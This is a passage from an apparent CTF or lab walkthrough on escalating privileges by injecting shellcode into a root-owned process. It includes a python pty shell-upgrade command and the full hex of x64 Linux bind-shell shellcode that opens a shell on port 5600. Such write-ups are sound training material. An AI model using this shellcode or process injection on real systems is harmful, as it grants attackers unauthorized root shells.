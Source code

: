 On inspecting the process we come across a ``http.server`` running with pid 19419. Looking at the process's start time it looks like this one started with root privileges on the host instance.

But the current shell gives us limited functionalities, let's check if we have python3 available and spawn a better tty shell.

```
python3 -V
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![](./images/03/08.png)

On checking the architecture of the machine with ``uname -m`` we are certain the host machine is running 64-bit linux.

We can use a publicly available TCP BIND shell shellcode, to trigger a bind shell. A simple google search for "Linux x64 Bind shell shellcode exploit db" takes us to this exploit DB link: https://www.exploit-db.com/exploits/41128.

**Shellcode:**
```bash
"\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05";
```

The above shellcode will trigger a Bind TCP Shell on port 5600.

The C program provided at the GitHub Link given below can be used to inject shellcode into a running process.
